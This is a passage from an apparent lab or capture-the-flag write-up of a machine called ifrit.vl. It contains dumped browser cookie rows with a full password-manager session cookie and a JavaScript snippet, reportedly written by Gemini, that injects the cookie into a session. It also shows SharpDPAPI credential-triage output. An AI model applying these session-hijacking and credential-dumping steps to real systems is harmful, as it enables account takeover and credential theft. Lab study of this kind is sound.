(18, '^partitionKey=%28https%2Cifrit.vl%29', '__utma', '159369083.1402738889.1720954676.1720954676.1720954676.1', '.pleasantpasswords.com', '/', 1784026714, 1720954714950000, 1720954676449001, 0, 0, 0, 1, 0, 2, 0)
(20, '^partitionKey=%28https%2Cifrit.vl%29', '__utmz', '159369083.1720954676.1.1.utmcsr=pwm.ifrit.vl:10001|utmccn=(referral)|utmcmd=referral|utmcct=/', '.pleasantpasswords.com', '/', 1736722714, 1720954714950000, 1720954676449004, 0, 0, 0, 1, 0, 2, 0)
(21, '^partitionKey=%28https%2Cifrit.vl%29', '__utmb', '159369083.2.10.1720954676', '.pleasantpasswords.com', '/', 1720956514, 1720954714967000, 1720954676449002, 0, 0, 0, 1, 0, 2, 0)
(22, '', '.PleasantIdentity.ApplicationCookie', '0b-_fNB_--CsS2vSa1Y-836trXbyd_rrRE9H3l4BmGYRh1Kd2vDRswj5DqT3eHpeh61IclA4FfI7B2E79l0qXRlRuFxMQP6nsl6XMJZrBISmfm_BI7xGZN-_AZgPGJATCS2szfSLwIhafwUw7i7WZleAEeSUb8p6rpdGq5gnhusyDl_9gH-QWgXSZEbSKvzY926hv-VCu04yGSi7eOy7Q2rpX0oFY1iHmiRYlcrAAsfQA_ahuPMO1lWU0VGS1ZObK-610UsFjQhA7JJ-1oiI--or5ECfZzBuKJZvPN_g2pIpzdjzBLzBah7FUpIce4-EwGj8QVGKT9uP7LpjvmuVF8LrJ1mQ5oRGQOuJ8IV63QLXBNPwRrGikGavPFH8YqjqsPx2aH2XMVn-AS9ht0rizVBCab2qsz3YCyPU9OqwzkdXphyYPO0sCoH3h0nB1JAdBdtqAPNw6NJXdqVDYF9WTOSj-sh-_K-7y_CAXv2r4dNmMRcktMbxYUCNyB0GtP4tzDZCI97_chBZb4CRy7WdD9QMoqVFLigfGW_NAZ3vZl9BcPDuQDaSLH2njzgejslSjACWa1DmsuUcD6LiexPcCfVyK2T_wy5F_1Shy6tPbvPgNjYQpy4Uv7hlCLkuuLXkeWdvMOsZqIZb0bp5oyB6wPWJmX-13PgrHBvsvOFcEIhSIYWNK1823uXenHeT8caUudNSvtmSj1lec0tem2dru24BO8wx6hP3ZtZnkMb8zXkItNTkiTxOLFW6uR-osNxquvtWXrxyOsgr1Fnfuwf18GBDMTSdRl-fNtnj6XlQPK0MmRFz3iLOg6TyM_TGhPCK0XV6CghmmDXQ0ytJUnvPnVSKtfz1Sim-hQZWbi_KDSvBecV2dSw-ewxEm2YBGvQFqLLwUC49GHEnB1epgH9Io2ia5oJJoTqHE00zNp7a5tHNvVy_QegKooCl6RxaHENg4MNUV7a1U6r27PyT_cJ88FuTneb0_IyaNvQcOXgcneJTjK6pGi8bnaeznXnadi95SxVbYtfIQy8YGX-O-9iBqbBmeanuh8sMFPZjDeNc15qtFdvtwjyph9PsSxTJK1RRaVgeO4z7wZr-3NDu3z6TcqoYLQnr62thSeQ5Izudc90ElW4jGF0Cf4J9BV4IdWUB7EvEWhrg_rLbtARtOotX5LMb7Et-82q1Vcjuqd0kQwU4abEWuAZpmThonj0x7PVVahUsIZgi-ahGUhqSeJjpOTbEGko7seb2W6rzZaunvneUXW6UwyHLfuQihYb1uv1sT_3QJNa_xOtl-oqFjPH46LUuBgmJP80uVVSDAZgN6JR0OkKIpYe1HfSVv-EmNdAlac-BpJHdiN5hFqf2DtzxAT0nAZeOkem4_kmvrTRGUQAVqyMAOFP73jgU8xdVDT6rg1qOLJuWqxitlUvVOAf4uNYDgAC8JsLd4FYYxK-yW3W3aDa9D0JQgUkfSG-6hzsyeTIU4YIsr3xtYbjwTbIBGi3euwy02LthO_VWF1WyzpTEHfO3iDXANpIwcUQrf7A1sdeCje7lO_uRAECWBQoxerR6JWLu0OsdibRHbJmlkzXBAjkoRJcbspQ9w_CYTBi08gMMYpa0NL9lCdleE_ikp9tIq4L-Wxc6jEUIwAdeH2zcyrsSTr9fIjG06iQb1O30XUWG_Vil-kupzR6632Uu2qZ0i7Hh0A51dZ7MfKDV9QTq0K4Oy16VbZZgvtNuPEdYLycYRvDoqgxWa8DPdLC1Z2MyrdPN57LFIYiu7lfUURcQL4I1rz5HYv5_ZhD5uS_AEKn2Nhbkp82ubJRulgvwD8klDX3nD3nESgkDhDwunpoxBGFhN4cOtTg-ukhGhBIujSuXyQ2D6VG3GaMfmRiZrhJaQMGr4u52NP_e7Vu1IBH7m5MFM34pqvbMNpqP-N6hUv_ghmpe5Px5sWwnY45GwXwUTAuDi60P35tPJAdRg-p5a64mOGjqFKQx9jIPFNS_XZOKZ1E3RY5f8XkpKSB1wiAWGEqi3ublhQiJeDR6N3-6cdJVQF_76B8TCaUNzkcySPQBk57adMoA7eT0G0C-9nzP85ukghSw_o-4-0e9_UWAkbCZuDCKwX0T_Vwuniv_7gk00DRUtORCJRr070ubtNP_uiv-tbq1FNDte5D6WUs0dKTTT3qHNvR6iZ9gp0FcnpLGguS_9EejkaUWZgQZLxiYtFwOG_fWxKMrcVLVrifo2sM_Pj7kYQywrWIJs_mQWqWnpk2q536jNEGPhMImaQNzXUq3YD-94Z5PgqKik3twYgCFUDUrQOF7UYqZKRMtO02iUEbU36hfT0xu3LVj3rMFS-n1C9wAJdeR9EboebilOZz-3TyVT5jz3jE682U94Q0aN9Mk-FAiIqWIoNhkZayIRdwR8JTl3Owk0Xx9E-RUgyAmGbcvZRTiaHvV25tUTYAYoCJfMHmD-qWs8zUUoIJ8tMdQVVocazeciwIMqN-OvXrlQvkriDtlbCyqhNHTrgRSTlG-Rh0Sq2EtXz7eGFUkQtoTCjEGLVb5CugRzDB_4iiEmY54jB15fadNHO7R2XT3keF3zfiTh5w3yQa9RvIXWQOu9xuZvV7EEdu_INMeGokmU0flTctp-q2o5KopecqZDXd7ykOH4ERange51SqrshcJFneFuHhqyPLgtwsbzJSUIlkEdbfvPRDO1DI3fF3xxeMFll0CKGY8dJ08Crfedkk3WXb58dQae1LMn071K6ixXhmv-adnVM4ww1Q0_ugqpsmYCKmgMGAj4DBcCgQNe-1YU8DeSz66WmrFf-2aCeMkekmEdRbeYbMVcRpJkACEpWSx_zYPwWitm5LiudFmiJghoImrbhhKkOjbvyouN63parYZlm7zDbUIBLsqZ6V4Mv1J6Y7ZSAIpP5BWF29XA-B76Qo65pX-skZv8LL4qut5FgUZBXs9QPdKtDKhZ1PbtH29pPYybnOiATilOZjpxJre0CFeJ_TTGRQP9o4ZrZkdn_tXwfSBLD198Nlv3Y1UfQJG7K3OQKVSv0FtGb7B5xO3lGE35QipqHzgbmNILAwcXpyCYP9_1ZtOun4gnmM7FxzZsnUha0jH58lS6ZjJv_Dd_UH-MQHOUQ1R0PP4tx-4drSGrGvVao6HHN6pk2uw7BqAa6Q0aKWsMLnv6JEOyEgYW5C8HCmXrcNTihVHqNrxTaq1zQnQ5VbK1SNtZo1qhG-CqyMmbPm3lvX6IPIfr6kdA6OckKqewhCV5Gnyt1_rrA2lGQf9q8hfykB0OFTcpiXLuo8VJk-GPNJG2v4BsN_8eDYpNbjyiWfnVmlfETdqLVDRnRFMu_WOQI8a9qDg1_0v4H1y_TgPg62oG-PaLIjhjPrNxoTZfhdYBb-IXNA9ZPUdiaPPM2yYrEo6WaWw-SuUlvqgXmuC-bn23EuFgKHitWI6RJbWGPfRjzTr0UVYxVX0SLDRlmsaFGJ0r3bhwfLWYW7ulEZlj4bh4uknXzZdfto3K3bZ_XCHsDLXV8EhArDIWdhl9AWwoP15LCn00pPEzNIkNYo65rh_E8DGEDNRfDRDKSA379o9bs57eOuFJWTL3CkYIJp8gmZv7PdmowfOyqHylKTvPXb1R5NjzPmaJEbG6WtbkF3QeD5QXeCFYTYU4mS57NGaE_c7WcE_SruYMzYLjagPVZr8-j7_99bUkN-WZYsPXfyx7YaLu6diSXhjpb1Z4T66CpIW', 'pwm.ifrit.vl', '/', 1720997937, 1720954864418000, 1720954740164004, 1, 1, 0, 0, 0, 2, 0)
(28, '', 'totp-status', 'open', 'pwm.ifrit.vl', '/WebClient', 1752490795, 1720954918301000, 1720954792639001, 0, 0, 0, 1, 0, 2, 0)
(30, '', 'new-totp-status', 'open', 'pwm.ifrit.vl', '/WebClient', 1752490905, 1720954905169000, 1720954748097001, 0, 0, 0, 1, 0, 2, 0)
(31, '', 'tagIsExpanded', 'null', 'pwm.ifrit.vl', '/WebClient', 1752490908, 1720954908687000, 1720954774678001, 0, 0, 0, 1, 0, 2, 0)
(32, '', 'ppsVersion2-lastVersion', '8.2.1.0', 'pwm.ifrit.vl', '/', 1721559723, 1720954923835000, 1720954686284001, 0, 0, 0, 1, 0, 2, 0)
(33, '', 'ppsVersion2-message', '', 'pwm.ifrit.vl', '/', 1721559723, 1720954923835000, 1720954686284002, 0, 0, 0, 1, 0, 2, 0)
(34, '', 'ppsVersion2-createdDate', '2024-02-07T18:36:48.807724+00:00', 'pwm.ifrit.vl', '/', 1721559723, 1720954923835000, 1720954686284003, 0, 0, 0, 1, 0, 2, 0)

```

Now I asked gemini to create me a easy to paste JS so that I can inject the cookie in my session.

```js
document.cookie = ".PleasantIdentity.ApplicationCookie=0b-_fNB_--CsS2vSa1Y-836trXbyd_rrRE9H3l4BmGYRh1Kd2vDRswj5DqT3eHpeh61IclA4FfI7B2E79l0qXRlRuFxMQP6nsl6XMJZrBISmfm_BI7xGZN-_AZgPGJATCS2szfSLwIhafwUw7i7WZleAEeSUb8p6rpdGq5gnhusyDl_9gH-QWgXSZEbSKvzY926hv-VCu04yGSi7eOy7Q2rpX0oFY1iHmiRYlcrAAsfQA_ahuPMO1lWU0VGS1ZObK-610UsFjQhA7JJ-1oiI--or5ECfZzBuKJZvPN_g2pIpzdjzBLzBah7FUpIce4-EwGj8QVGKT9uP7LpjvmuVF8LrJ1mQ5oRGQOuJ8IV63QLXBNPwRrGikGavPFH8YqjqsPx2aH2XMVn-AS9ht0rizVBCab2qsz3YCyPU9OqwzkdXphyYPO0sCoH3h0nB1JAdBdtqAPNw6NJXdqVDYF9WTOSj-sh-_K-7y_CAXv2r4dNmMRcktMbxYUCNyB0GtP4tzDZCI97_chBZb4CRy7WdD9QMoqVFLigfGW_NAZ3vZl9BcPDuQDaSLH2njzgejslSjACWa1DmsuUcD6LiexPcCfVyK2T_wy5F_1Shy6tPbvPgNjYQpy4Uv7hlCLkuuLXkeWdvMOsZqIZb0bp5oyB6wPWJmX-13PgrHBvsvOFcEIhSIYWNK1823uXenHeT8caUudNSvtmSj1lec0tem2dru24BO8wx6hP3ZtZnkMb8zXkItNTkiTxOLFW6uR-osNxquvtWXrxyOsgr1Fnfuwf18GBDMTSdRl-fNtnj6XlQPK0MmRFz3iLOg6TyM_TGhPCK0XV6CghmmDXQ0ytJUnvPnVSKtfz1Sim-hQZWbi_KDSvBecV2dSw-ewxEm2YBGvQFqLLwUC49GHEnB1epgH9Io2ia5oJJoTqHE00zNp7a5tHNvVy_QegKooCl6RxaHENg4MNUV7a1U6r27PyT_cJ88FuTneb0_IyaNvQcOXgcneJTjK6pGi8bnaeznXnadi95SxVbYtfIQy8YGX-O-9iBqbBmeanuh8sMFPZjDeNc15qtFdvtwjyph9PsSxTJK1RRaVgeO4z7wZr-3NDu3z6TcqoYLQnr62thSeQ5Izudc90ElW4jGF0Cf4J9BV4IdWUB7EvEWhrg_rLbtARtOotX5LMb7Et-82q1Vcjuqd0kQwU4abEWuAZpmThonj0x7PVVahUsIZgi-ahGUhqSeJjpOTbEGko7seb2W6rzZaunvneUXW6UwyHLfuQihYb1uv1sT_3QJNa_xOtl-oqFjPH46LUuBgmJP80uVVSDAZgN6JR0OkKIpYe1HfSVv-EmNdAlac-BpJHdiN5hFqf2DtzxAT0nAZeOkem4_kmvrTRGUQAVqyMAOFP73jgU8xdVDT6rg1qOLJuWqxitlUvVOAf4uNYDgAC8JsLd4FYYxK-yW3W3aDa9D0JQgUkfSG-6hzsyeTIU4YIsr3xtYbjwTbIBGi3euwy02LthO_VWF1WyzpTEHfO3iDXANpIwcUQrf7A1sdeCje7lO_uRAECWBQoxerR6JWLu0OsdibRHbJmlkzXBAjkoRJcbspQ9w_CYTBi08gMMYpa0NL9lCdleE_ikp9tIq4L-Wxc6jEUIwAdeH2zcyrsSTr9fIjG06iQb1O30XUWG_Vil-kupzR6632Uu2qZ0i7Hh0A51dZ7MfKDV9QTq0K4Oy16VbZZgvtNuPEdYLycYRvDoqgxWa8DPdLC1Z2MyrdPN57LFIYiu7lfUURcQL4I1rz5HYv5_ZhD5uS_AEKn2Nhbkp82ubJRulgvwD8klDX3nD3nESgkDhDwunpoxBGFhN4cOtTg-ukhGhBIujSuXyQ2D6VG3GaMfmRiZrhJaQMGr4u52NP_e7Vu1IBH7m5MFM34pqvbMNpqP-N6hUv_ghmpe5Px5sWwnY45GwXwUTAuDi60P35tPJAdRg-p5a64mOGjqFKQx9jIPFNS_XZOKZ1E3RY5f8XkpKSB1wiAWGEqi3ublhQiJeDR6N3-6cdJVQF_76B8TCaUNzkcySPQBk57adMoA7eT0G0C-9nzP85ukghSw_o-4-0e9_UWAkbCZuDCKwX0T_Vwuniv_7gk00DRUtORCJRr070ubtNP_uiv-tbq1FNDte5D6WUs0dKTTT3qHNvR6iZ9gp0FcnpLGguS_9EejkaUWZgQZLxiYtFwOG_fWxKMrcVLVrifo2sM_Pj7kYQywrWIJs_mQWqWnpk2q536jNEGPhMImaQNzXUq3YD-94Z5PgqKik3twYgCFUDUrQOF7UYqZKRMtO02iUEbU36hfT0xu3LVj3rMFS-n1C9wAJdeR9EboebilOZz-3TyVT5jz3jE682U94Q0aN9Mk-FAiIqWIoNhkZayIRdwR8JTl3Owk0Xx9E-RUgyAmGbcvZRTiaHvV25tUTYAYoCJfMHmD-qWs8zUUoIJ8tMdQVVocazeciwIMqN-OvXrlQvkriDtlbCyqhNHTrgRSTlG-Rh0Sq2EtXz7eGFUkQtoTCjEGLVb5CugRzDB_4iiEmY54jB15fadNHO7R2XT3keF3zfiTh5w3yQa9RvIXWQOu9xuZvV7EEdu_INMeGokmU0flTctp-q2o5KopecqZDXd7ykOH4ERange51SqrshcJFneFuHhqyPLgtwsbzJSUIlkEdbfvPRDO1DI3fF3xxeMFll0CKGY8dJ08Crfedkk3WXb58dQae1LMn071K6ixXhmv-adnVM4ww1Q0_ugqpsmYCKmgMGAj4DBcCgQNe-1YU8DeSz66WmrFf-2aCeMkekmEdRbeYbMVcRpJkACEpWSx_zYPwWitm5LiudFmiJghoImrbhhKkOjbvyouN63parYZlm7zDbUIBLsqZ6V4Mv1J6Y7ZSAIpP5BWF29XA-B76Qo65pX-skZv8LL4qut5FgUZBXs9QPdKtDKhZ1PbtH29pPYybnOiATilOZjpxJre0CFeJ_TTGRQP9o4ZrZkdn_tXwfSBLD198Nlv3Y1UfQJG7K3OQKVSv0FtGb7B5xO3lGE35QipqHzgbmNILAwcXpyCYP9_1ZtOun4gnmM7FxzZsnUha0jH58lS6ZjJv_Dd_UH-MQHOUQ1R0PP4tx-4drSGrGvVao6HHN6pk2uw7BqAa6Q0aKWsMLnv6JEOyEgYW5C8HCmXrcNTihVHqNrxTaq1zQnQ5VbK1SNtZo1qhG-CqyMmbPm3lvX6IPIfr6kdA6OckKqewhCV5Gnyt1_rrA2lGQf9q8hfykB0OFTcpiXLuo8VJk-GPNJG2v4BsN_8eDYpNbjyiWfnVmlfETdqLVDRnRFMu_WOQI8a9qDg1_0v4H1y_TgPg62oG-PaLIjhjPrNxoTZfhdYBb-IXNA9ZPUdiaPPM2yYrEo6WaWw-SuUlvqgXmuC-bn23EuFgKHitWI6RJbWGPfRjzTr0UVYxVX0SLDRlmsaFGJ0r3bhwfLWYW7ulEZlj4bh4uknXzZdfto3K3bZ_XCHsDLXV8EhArDIWdhl9AWwoP15LCn00pPEzNIkNYo65rh_E8DGEDNRfDRDKSA379o9bs57eOuFJWTL3CkYIJp8gmZv7PdmowfOyqHylKTvPXb1R5NjzPmaJEbG6WtbkF3QeD5QXeCFYTYU4mS57NGaE_c7WcE_SruYMzYLjagPVZr8-j7_99bUkN-WZYsPXfyx7YaLu6diSXhjpb1Z4T66CpIW; domain=pwm.ifrit.vl; path=/; expires=Fri, 31 Dec 2027 23:59:59 GMT; secure";
```

I cannot make it work so I guess I need to dump the DPAPI from this user. And SharpDPAPI shows there are some creds but I cannot decrypt it:

```bash
PS C:\Temp> ./SharpDPAPI.exe credentials

  __                 _   _       _ ___
 (_  |_   _. ._ ._  | \ |_) /\  |_) |
 __) | | (_| |  |_) |_/ |  /--\ |  _|_
                |
  v1.11.3


[*] Action: User DPAPI Credential Triage

[*] Triaging Credentials for ALL users


Folder       : C:\Users\charlotte.cooper\AppData\Local\Microsoft\Credentials\

  CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

    guidMasterKey    : {84154f70-a7d3-4f9b-9850-cf66cf65d1cc}
    size             : 11036
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {84154f70-a7d3-4f9b-9850-cf66cf65d1cc}


Folder       : C:\Users\patrick.ford\AppData\Local\Microsoft\Credentials\

  CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

    guidMasterKey    : {d10af973-27a9-4d8d-9d9d-7efa766fa616}
    size             : 11036
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {d10af973-27a9-4d8d-9d9d-7efa766fa616}


Folder       : C:\Users\sheila.richards\AppData\Local\Microsoft\Credentials\

  CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

    guidMasterKey    : {641f646d-a835-4bb8-b2ab-1c3f17c47050}
    size             : 11036
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {641f646d-a835-4bb8-b2ab-1c3f17c47050}


```

Now here I asked another user and apparently trying to work with the password manager and pass the cookie is just a rabbit hole and I am supposed to export more stuff out of the VDI.

# Back on Track

Now with the credentials extracted by the Patrick Fords Edge browser I can login into this system:



As you see this is clearly the end of the road, check the DC01 page for the last stuff.